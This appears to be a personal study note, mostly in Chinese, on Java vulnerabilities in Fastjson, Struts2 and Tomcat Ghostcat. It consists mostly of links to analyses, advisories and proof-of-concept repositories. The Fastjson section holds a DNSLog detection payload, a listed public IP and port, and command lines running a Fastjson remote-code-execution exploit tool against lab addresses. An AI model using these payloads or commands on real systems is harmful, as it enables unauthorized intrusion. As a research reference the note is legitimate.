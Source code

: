 # java 漏洞

## Fastjson

<!-- 
sec\udesk.sec.java.md
fastjson.20200325.md
-->

[Fastjson < 1.2.68版本反序列化漏洞分析篇](https://www.anquanke.com/post/id/219731)

[Fastjson68版本绕过autotype原理及利用场景分析](https://www.freebuf.com/vuls/240392.html)

[Fastjson <1.2.48 入门调试](https://www.anquanke.com/post/id/209915)

[Fastjson 1.2.24反序列化漏洞深度分析](https://www.anquanke.com/post/id/211035)

[Fastjson1.2.24漏洞复现详细过程](https://www.freebuf.com/articles/web/242712.html)

[不安全的序列化](https://www.freebuf.com/articles/web/244476.html)

[Fastjson批量检查及一键利用工具](https://www.freebuf.com/sectool/244113.html)

[fastjson<=1.2.62远程代码执行漏洞通告](https://www.anquanke.com/post/id/199527)

[CVE-2020-8840: FasterXML/jackson-databind 远程代码执行漏洞通告](https://www.anquanke.com/post/id/199519)

访问地址: 118.193.36.37:43170

{ "zeo": {"@type":"java.net.Inet4Address","val":"m9ng8n.dnslog.cn"]]
https://github.com/mrknow001/fastjson_rec_exploit
git clone git@github.com:mrknow001/fastjson_rec_exploit.git
118.89.54.172
python3 fastjson.py -u http://192.168.1.3/ -s 192.168.1.1 -c "touch /tmp/test.txt
python fastjson_rce_exploit.py -u http://192.168.56.107:8090/ -s 192.168.56.1 -c "touch /tmp/test.txt"

https://github.com/mrknow001/fastjson_rec_exploit/archive/master.zip

[vulhub](https://vulhub.org/)

[基础篇-XSS盲打](https://cloud.tencent.com/developer/article/1078996)


## Struts2

+ [x] Struts2 真的落后了吗? 是 https://github.com/apache/struts/releases 基本不更新了
+ [ ] 现在流行的又是什么? Spring+SpringMVC+Mybatis

Struts2-059 远程代码执行漏洞（CVE-2019-0230）分析
https://www.anquanke.com/post/id/216629

Struts 2.3.24
https://archive.apache.org/dist/struts/2.3.24/struts-2.3.24-all.zip

TODO: idea创建 struts2项目: 应该需要升级idea
Failed to download 'http://central.maven.org/maven2/org/apache/struts/struts2-core/2.5.14.1/struts2-core-2.5.14.1.jar'
central.maven.org 这个域名已经没有了

        <url>https://repo1.maven.org/maven2</url>
https://stackoverflow.com/questions/62075914/intellij-create-sample-struts-web-project-with-java-then-show-this-error
because: "Beginning January 15, 2020, The Central Repository will no longer support communication over HTTP" (https://blog.sonatype.com/central-repository-moving-to-https)

Struts2入门这一篇就够了
https://juejin.im/post/6844903573545811982

## fastjson

[Fastjson历史漏洞研究（一）](https://www.anquanke.com/post/id/215753)

[FastJson历史漏洞研究（二）](https://www.anquanke.com/post/id/218268)

## Tomcat

### tomcat ghostcat Tomcat-Ajp

AJP Connector，它使用的是 AJP 协议（Apache Jserv Protocol）是定向包协议。
因为性能原因，使用二进制格式来传输可读性文本，它能降低 HTTP 请求的处理成本，因此主要在需要集群、反向代理的场景被使用。

https://github.com/hypn0s/AJPy

[POC](https://github.com/0nise/CVE-2020-1938)

[tenable Nessus: CVE-2020-1938: Ghostcat](https://zh-cn.tenable.com/blog/cve-2020-1938-ghostcat-apache-tomcat-ajp-file-readinclusion-vulnerability-cnvd-2020-10487?tns_redirect=true)

[Apache Tomcat - AJP 'Ghostcat File Read/Inclusion](https://www.exploit-db.com/exploits/48143)

xray 长亭科技 tomcat ghostcat 扫描
https://www.chaitin.cn/zh/ghostcat

CVE-2020-1938：Apache Tomcat服务器任意文件读取/包含漏洞通告
https://www.anquanke.com/post/id/199351

CVE-2020-1938 : Tomcat-Ajp 协议漏洞分析
https://www.anquanke.com/post/id/199448

CVE-2020-1938：Apache Tomcat服务器任意文件读取/包含漏洞通告
https://www.anquanke.com/post/id/199351

CVE-2020-1938 : Tomcat-Ajp 协议漏洞分析
https://www.anquanke.com/post/id/199448

[Google Search XSS漏洞分析](https://www.anquanke.com/post/id/213422)
sanitize